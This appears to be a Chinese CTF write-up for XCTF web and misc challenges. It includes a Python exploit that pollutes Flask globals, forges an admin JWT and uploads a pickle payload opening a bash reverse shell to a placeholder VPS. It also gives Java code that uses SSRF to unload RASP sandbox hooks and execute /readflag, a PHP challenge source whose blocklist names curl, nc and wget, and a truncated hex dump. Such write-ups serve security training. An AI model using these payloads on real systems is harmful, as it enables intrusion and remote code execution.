










妖，初赛冇着数。

<!--more-->

# Web

## ez_picker

python 原型链污染 secret_key。

```Bash
POST /register HTTP/1.1
Host: web-aac1646475.challenge.xctf.org.cn
Content-Length: 100
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://web-aac1646475.challenge.xctf.org.cn
Referer: http://web-aac1646475.challenge.xctf.org.cn/register
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"username":"flyingcat1","password":"flyingcat1","__init__":{"__globals__":{"secret_key":"123456"}}}
```

继续原型链污染 waf。

```Bash
import requests
import pickle
import jwt
import json

class payload(object):
    def __reduce__(self):
        return (eval, ("__import__('os').system('bash -c \"bash -i >& /dev/tcp/vps/port 0>&1\"')",))

pickle_data = pickle.dumps(payload())
secret_key = "123456"
url = "http://web-19d4212730.challenge.xctf.org.cn:80"
# url = "http://127.0.0.1:8000"

data1 = {"__init__": {"__globals__": {
    "secret_key": "123456",
    "safe_modules": ["builtins"],
    "safe_names": ["eval"]
}
}}

r = requests.post(url + "/register",
                  headers={"Content-Type": "application/json"}, data=json.dumps(data1))

user = {"user": "telllll", "role": "admin"}

token = jwt.encode(user, str(secret_key), algorithm='HS256')

open('1.pkl','wb').write(pickle_data)
files = {
    "file": open('1.pkl','rb')
}
r = requests.post(url + "/upload", headers={"Cookie": f"token={token}"},files=files)

print(r.text)
```

## OnlineRunner

```Java
try {
    java.io.BufferedReader br = new java.io.BufferedReader(new java.io.FileReader("/etc/passwd"));
    String line;
    while ((line = br.readLine()) != null) {
        System.out.println(line);
    }
} catch (Exception e) {
    e.printStackTrace();
}
```

存在 /readflag 文件，需要 RCE

`/home/ctf/sandbox/lib/sandbox-agent.jar` 获取之后反编译分析



读 /home/ctf/logs/sandbox/sandbox.log 拿端口



读一下插件：

```Python
rasp-file-hook              ACTIVE          LOADED          1            1            UNKNOWN_VERSION        UNKNOWN_AUTHOR
rasp-rce-native-hook        ACTIVE          LOADED          0            0            UNKNOWN_VERSION        UNKNOWN_AUTHOR
sandbox-info                ACTIVE          LOADED          0            0            0.0.4                  luanjia@taobao.com
rasp-jni-hook               ACTIVE          LOADED          1            2            UNKNOWN_VERSION        UNKNOWN_AUTHOR
sandbox-module-mgr          ACTIVE          LOADED          0            0            0.0.2                  luanjia@taobao.com
sandbox-control             ACTIVE          LOADED          0            0            0.0.3                  luanjia@taobao.com
rasp-ws-hook                ACTIVE          LOADED          0            0            UNKNOWN_VERSION        UNKNOWN_AUTHOR
rasp-deserialize-hook        ACTIVE          LOADED          1            1            UNKNOWN_VERSION        UNKNOWN_AUTHOR
rasp-http-hook              ACTIVE          LOADED          0            0            UNKNOWN_VERSION        UNKNOWN_AUTHOR
rasp-reflect-hook           ACTIVE          LOADED          1            1            UNKNOWN_VERSION        UNKNOWN_AUTHOR
total=10
```

SSRF卸载拦截器

```
http://127.0.0.1:38867/sandbox/default/module/http/sandbox-module-mgr/unload?1=1&action=unload&ids=rasp*
try {
    java.net.URL url = new java.net.URL("http://127.0.0.1:38867/sandbox/default/module/http/sandbox-module-mgr/unload?1=1&action=unload&ids=rasp*");
    java.net.HttpURLConnection conn = (java.net.HttpURLConnection) url.openConnection();
    conn.setRequestMethod("GET");
    java.io.BufferedReader in = new java.io.BufferedReader(new java.io.InputStreamReader(conn.getInputStream()));
    String inputLine;
    while ((inputLine = in.readLine()) != null) {
        System.out.println(inputLine);
        System.out.flush();
    }
    in.close();
   Runtime rt = Runtime.getRuntime();
            String[] commands = {"/readflag"};
            Process proc = rt.exec(commands);

            java.io.BufferedReader stdInput = new java.io.BufferedReader(new
                    java.io.InputStreamReader(proc.getInputStream()));
            String s = null;
            while ((s = stdInput.readLine()) != null) {
                System.out.println(s);
            }
} catch (Exception e) {
            System.out.println(e.toString());
            System.out.println("122");
}
```



## capoo

任意文件读

showpic.php

```PHP
<?php
class CapooObj {
    public function __wakeup()
    {
        $action = $this->action;
        $action = str_replace("\"", "", $action);
        $action = str_replace("\'", "", $action);
        $banlist = "/(flag|php|base|cat|more|less|head|tac|nl|od|vi|sort|uniq|file|echo|xxd|print|curl|nc|dd|zip|tar|lzma|mv|www|\~|\`|\r|\n|\t|\        |\^|ls|\.|tail|watch|wget|\||\;|\:|\(|\)|\{|\}|\*|\?|\[|\]|\@|\\|\=|\<)/i";
        if(preg_match($banlist, $action)){
                die("Not Allowed!");
        }
        system($this->action);
    }
}
header("Content-type:text/html;charset=utf-8");
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['capoo'])) {
    $file = $_POST['capoo'];
    
    if (file_exists($file)) {
        $data = file_get_contents($file);
        $base64 = base64_encode($data);
    } else if (substr($file, 0, strlen("http://")) === "http://") {
        $data = file_get_contents($_POST['capoo'] . "/capoo.gif");
        if (strpos($data, "PILER") !== false) {
                die("Capoo piler not allowed!");
        }
        file_put_contents("capoo_img/capoo.gif", $data);
        die("Download Capoo OK");
    } else {
        die('Capoo does not exist.');
    }
} else {
    die('No capoo provided.');
}
?>
<!DOCTYPE html>
<html>
  <head>
    <title>Display Capoo</title>
  </head>
  <body>
    ' />
  </body>
</html>
```

任意文件读，直接秒



/flag-33ac806f



## Spreader

注册用户，然后从 plain 发 xss 拿到 privileged 再到 admin。

```HTML

```





# Misc

## ezflag

Wireshark 转储



```Bash
raw = """504b030414000000080025ad3d59adbf274e9b1400007f54060008000000666c61672e7a6970ecd6e75793671806f0a8a558990eb68216810205445496108682c8880c417619b221225b36c85001ab08c8462843210c1901115276912943465809320284197620a5a7ff403ff4e3fd3be7bddef739ef97ebfef03ce779764f479de914f7290402c1a471e7961e0271e2b7a3ef9c93c78fd2c676c1f3e875cc434f5d0551dc7d9e74b4f8c15e595b1981287bc940b5a23b5afff4e88eb10702c1dcf4cf73ac0d5d608b409c3ba7714bd9c0d7823c3e62352df711d1cb917462c1572e45a7b5a1935fe00cc3b3d817b696fb6999a4d3cf30f7b23aaabeef07d34e20429e1e3f8d088981f82fd1292dce8aa41d1c6cacad05a3f8f882690a16d4fd39d20aaea7cd1c6929c9fce70a853f33b4c4c260895668b3c5807b3abeb8ef3223b1aacdd0dc8373be7d8eea774e8d76f82b6d7bdad4ae6dcedecab0ff857687abc0a0cc4db10b0662d8581313a66bfbd4ed1574403713725e71ce5bb31c19cc72eda61bf74227238b2c570403d34aa9cbba28bdb99accb5e6370b7c7c8e8f718df21fad7bcf644b6aa6e673dc3c3179869a67841c56a575dd9ff0bc92642e2a8d2bedcbc51ffd8d6de3f7352752198348e153a4d9b6f13a53e3d873e568e38b918c6fb57a30236ddbe2ac7cc8197f1d97f8ca8833e8c294b95819ad628a192bbd73a4f7de1646668932935b792993f6a56b36527ac5d6b5a0fba89342abbce0d0d5ea0ea3f37cd6720a9af7e22e2f495a5ed889a5386ccf8432baa2471a7d7e08feb3eec528c38191a19f6510659d46b96bd3c65f5537c42ee33f72c9b7fd7dad87e89044f60656bde4a786e031e95f596d08fa32caf9a821d187423ef195731dd576e705b1ecd18ef683bd3a42e89adca2bed24d0793185445ced93724c9d2315f65fb983dd67c9e89870e4925b232cd82d216e7c27c6c5b248dea8727b7180350ab6d9ff71a78f72430ebade1233db47ed1bad7527502f53f2f4bab5df79833b4c3e27ed93cecafb70a1d1ea3f5e72f7a116b0e367c68d30bd74f2067333d923683d8746535e6fc27da51f7052adcd377b7ad4792921bcd54e7366ec56720cb23b14bf61fe35eda16f550da32121c98359b58dba29151c96f861e7f2298477aefa6ac5d7a9d592354eca6f355fe23b16055f143e46aeb74d777959fd3271aa57f0c1ed8bc5d1971b85df879edb7b8ef345282457bf25c272f6acab3779fafa1215677bcda4fb4bf44d5f2c90ff5b92b461723a50cb5328f7a3efcc6755f70a0c66c28aee9bb678f7c7b590a9b7ccccbfabe996f83bb269bdb7f951198a2ca93cf77bd68b22ed8ea772d9ef16cc2c72caddf0e577541a7fe4a0b68596f7228e9786e7452a32c75a4521627bdd3645177fa1d8d2c6273b398afd3d5e585a61fe1eea2ac549272c2578b754a8dd4075389e12f8f36079e065da523deae1b30110a90d918757f9bb6ecc7cf5b78dbf14fb7b1c5fe03179cd86efd05268504fe3ea6f9906edb26d65ae13437dfa42ba183338f5618594ea3030eefede616b284d7898b5a58a57b5b9958ddcecfa37e9b7a595b55506fc2edd9aa70269d73e4764dc710c693bcebd0b6dd33df5ab01cd18d1efbb24924fbaf5be62b7d2e8837b6ba1e85529167367ad25d74ec60872788d992b3543ab9fd4fb187951b41063ec7dddfb709727ae573cf96d64c7b36a5c690d705e823dfa2b527d1ab5f5a7097442db2922508c4f7c238a91d7a3353034b81ec2ea59ec8a6f2ad812e9a11a6a2f6cd07bcbda7a581a6489d25b767dd56f6d2feca9e1a1d71a36977ede0f846eac9b0998c32b30c24a1feb390cd0daaf1a1dfeaf015d7cae4dbd9f1c64267d05c8517a2f4155672a344d232555e8e3749738da684bdaab71f373797ff103b593b71bdb4f19166554a3f93f46cd183442497f6e2b08f7d9244f5b55b0ebd9aa183af4ed47717dd489ed854ed56f47b9c8e887c209454882a2e6e6a40dacad8a04d0d727553b2741d07621f694a293a6ea3c7eb0709aa499cd18db637b12bcf1778b08f99269fcd1fb84ce629c5f4bc7f5d8aeebaf6964f6dd06294effe584096846f8588fd777da1f26f794dcfa439a3ce2aaccc2c3addb426fec1adec528126493bbb3adfc8f4be234eefe2107a29af5d3b9f477021d8a2009b4630575c21b2be5316adb3cb67f6f59fc41ba99bfbae2fcd7c1d6318caf428b655434a664486070f94c5d459e9b665127cce771a4ff8e50ff963d1ba661359dd012c735b4cba81fb86c55da698e0dc4c838b6e9fde4e065d980839b8873f181f36ae7d49c2bf9dc98cedbf47f24f5f7944646a25dcea31c57bb0ab8953864fed8b747f66cdfb60511878f3a37917cf60d21505f70c23666d71e981dbc27af93ce2c4ef7cb3085b65c7fb17f165a6b5017d33979ec8968e7e6fe467de156d396699ca561e7f5674415da2ebcd927ec1eedbf85756eae1c17fadc5d47d2ae86277e136cc20a8e233bb5dfc84b1e4dcf270232393de9ee4c8eebd1ba1e93e8fcb93f07646397b6ca635717e8221c851d41edb86477cbe3dea306765d8c68fa69ae4815f6219b49df331bc53ef6d17619649ebdedc705138247a2d624f763c97c7592bf67b38056759bfaceced5e9893682df352931e8d2596f617cde68a95206fd6978f573d17e3dd465e9e3c66294be397fc65c2eb13413f25d3f8641fa58812e09284aab18a2e4360b62f284e911058fb9626d23332b9a9e6ac5bb20e753ad80485f1be2594d3809cd26ab530359023ee4805b890d26bb778d8b9df6c5327c8a9e4fc2bbf68f406b6d7cba4e13972f6ae9bd658d4507fd9710cea8b32c84bebd28cce7aa528c9d751733a55e754fb507751d16677c04222cff6a87b75dfc61f943b8eccc30cfa3732bf88c96ba4eac577cfa48c7bd87e7da1819252544ef33c4926459673ee1029a673841d713e9f0ed684dc9534b9a917460f5b9a129e3d8c54e1d0b7d6ab9764c68f3f0d975a924f2a336267c37bf3d8159e7fee2daf6435bfe656525461ebc2c6d2cf7532c39577d4322a6e766b38402416e7243a247ac0797815f95ec9a5c0ae5529b88c2c8e1174a69fd92a236fdd2bce6baa19abfd1ad724a630b7e8c8c2c94346dfc1a5a60dfed85d211710ddf3fcdd21fb86d9c7f6cbc56c27c83b45a71a14c61f9d09bbf742b972e37170783c97c7106b4250dcbce7daa7a279d98aaab2bf5ac2bf564bc4e1472278c2326593cb38d8d952e2ae69e5dfcf683754504a104d775b19af6fb87d5340b544f1308d56c29f3484bcf1ee315e02ffe5cafa72a3c4b6e6a9e6617154c8bb656e47363999abe93d5d28a92fae6d7a8ad27d1e95931321928c2c2f2d1d508d1c13a4c945dc93a85f173f5c1d4b4ed7d94f9fc55239ec0ef3d01f8b13bbcceb766eb6083f0dd5912eca73fd10a0e9d559d61e538d8e26f6b138dd12f1466a93968be6b9871b07a73084aad9c01ce53afe9d67a1d7cfa1657105bd1f13dc5aee4772a43e3361b857e9958f3fda80172774f7ce3657eeb7bc47c73f0fb78c5e30729db96cc6fd6c5a625d9fa179575bada36d7da3fc7732ed81c9fd6ee53d42f15963b6f8cab180476e74980c9e351ece2b645969ac70a4a3d062cee103b932ea95a0f75d0672121c3efda948f507f163f23772aa3ff7523c9b6cb1df3eda495cd37c82aceb087ff7368d373bab8292517642d1cfdd708911e522d499eb61cf4f79df806f0d4372c7cacc97c528e00a7298e247e2049c649562ade4c7332c1c351c8de96d2d9be5cea630ce6ced16f0c6766a9bd64473cc8d916f118776ace8ac3356058cedc65ebd4aaf62228b8fba3b1452ce5b8aa7bdfc7a0c7b2988aa65e776a55751e7373d0966fb70d3b3951cd285e3afba9c72aaa72b8fd945d4ea48c7287396fdf841c1acda24c6d9a53689e2fd303accdb27399c3e206b71f4c2da669d8aa5ba509514efd31c1466cbd5663a4e6ddaa0b55b4762c1a1c9b64a3d8977d9499ad1a8434aaeaeafae8c8e72795220a14d2e119f9fb327609afc0c17e2dc33c5b1ab4c67fd7aee451b16fb1249e2c2396b4bd9fc5a28c2957c7875db56ee7a1bbaed5dce8007630f95505ac79a43b1e9d7c49fcefd45e023b91d39f6e0caa7eb0df7aabfe8a765065f77b44fa7538c487ded97e6ca197e853822eee9e19414a5e2ee1a1dd6d0a518f4e7e42bb6f8b367f15c29247d4e4ce0e294ab4d035f4c6b724ca05c6d41c39830faf15a0b66fc774284c72e6eb1c465aaea846cbf2edfd22db728f6a8ec7fea6ad46763837dd752a96f8f4bfa5debaaad7535e9ce7c57e434eebd165d7566cb64683fa34954fd3ca77c27f65c87adcf8ffbe7c752061f542cc7392a3b4e0cf124e2ceb8da8ac5c9b0c7ee47458f7c1d5eba1c11c9b27374db1968f68eebbc4419aef759ad923998fd81be6530ce6e8948c92646779138d03cdc9ef8ab541affeb63913f5ea8215b4fe439693c12c146b13f70325976cbf7c593948dc2c3693790b94a4b33ea7efbfe988c9497bd952fec58ae63d64a2ed0027b0809fcad6d6edad2cc0a0a0f13879e98bc13e68cf936bab8f349cf4a67f3fe9bfcc02aab1a6c622f31dae66b7570f4ec31538acae9e27cf3cffca23ada2e8bbd562bb13bd7ce0c8ccc07dab4ce1a3e7aa29b942d592a5b7bd8c4a07e39bef61ae15675ce484fd6e38b4ff4c5b01fead244b6c6789649ad18ada2a1e593b3a875d553cd1356ef2fdf0fa849e0b0ead45bc698a769147d29ca78a2e92442a1fa06bb6bfa666aec1dae7f7dc7d3565ef3e5d337477107ad8b9fcef5bf4a30f851067fa58a277dd5d967977078698ff09eee4681e7da5e918c6cd958afb6f2865fc573736f432f97a50c82155647c2c9a5f9eef6414b94bcca8ad1062d8fbc883a08796cbf5f39e7a43f8fc28c79b86ce76162be396342837327752fb6a67dc87b8cc40846f88bdb1aee6b7c35d6ebef9572586c0c9154db5f6b3463d69a210cff6ca2ff208217f5947289b9afbd9c3c53cee44f8e63509818244c102e11450afd874852b377275a947a38ca89df9baff2976b5d0e34cc3fbf42c22c4c4d2994d5da106ee20a64acbde8dac552fd9ff433a9f23ed09e2fef9f2124e4119bd1c35577eda719463a092e0636b53ee899d1ea310ac7be239df5fbfbafff8a35c89020d3778e267eac4a36eedf4e8930e27b1ddaa13112d79490213a7ae29bc0341bb1ff66a2abc692736cffb6640b5ef4b4b3255fffc2650be716c26f4dbe98b7992c9983b4e186891173c5a95556c9f053a1fecfb1e7e4b4ad2b16b3d9b6db678a6414ca6e5563823445162baf2d52c2e9c6c5e9c382b56ef80afcb11f53575a501db6cefdb1d8c7a7b9705f77ba92bfeca70d61fb818804c146057ea97dea7efe2736d550312d29d356b7336b0bef0a82460c8b4f24619738f6855794b5a4443fa77b8bf025a204039fe246073adbdb24e878d199194f2dd9a88e0774f376760af6f25e290169e4af68395b010175e2a3e2b9e75b212f3b7a908e675b26f3b4be74111b0202a818579ec98589a79579627db51bc9cc9d1e0637fe4a7340914eb608f5922273397f355239c75c24ece923c628161515adf96b945b15c3e4748bf0f19e55edf68dea8a959f9d77c2fe99356b4bab50236e40ffb5ce6e36f71aa3dad1acdcaf08317515057dd12cefaca6b9eaf17fe67b76dabcfae942e2f64622593e516a3166b6b7b98c6877537be3c1b2255965c3d7dd693bcd5614dba376dd75fbed4adf6a8b29d7cf9e5b92abfa076f8ebbc71bd7080babd4aa84fd31a942ee9cbec683bd5a38b8a6cacf473f7daf7fbe265be137d1faf8d1476443d3881dc160ff2cdbfe6cf9b1c34bbe661e7731d599aec32cc41d371fef5de6a339169dc93afca7f4cb5f499978898976a396ac5c369ff54eb74dee44a99d6a6d0cf6dd393d1ebd22e8e3aedb756c8eecead6443a6b7e6e56cfcdaf6debc258c5a1f7409c52ce438902fb7f8eda1ae627bee5c19f32f52feacc22b77166160af5f4c9e295fa35c39e6e546a4d40a1bb54f93774e5a959be2436935b641933d23f55039b671fbdebbf34d33512607a413bd5f4276dd2965f863d514f8fb135c559cc9ec7d066756c79cdcbebdfc21a7ab2e985a2f4d45c63772b6bb2ba89c644d66bdd712d33267a5a5638977fa0eeccb12135feddb2b1d3b169f3753a87936581ea1e82d4de92aced4de25db7cc98857dece3f1f206df43dec912a5cf2e728c1df46dcc2b5e0e2995ae8a2a4d2dadd35e87c23ec448893b85439b66f1713207fe7e9b62cc71696eb32f66b92265e4fedc8c8c978ea2e1652e7c1e112d27f6358bdf4dacfcbcae6dd63e2cf5e2aeb4af1f29a464b4d1c775b2e24487523c3fde5df88a100fce5d942d9a0d59aaf4d97c1f5fb9e994a3f403a23e77b3b0fab8bb6ae8f06031cbf44bd6197604357f87dbe2e8848dc659160ba20a
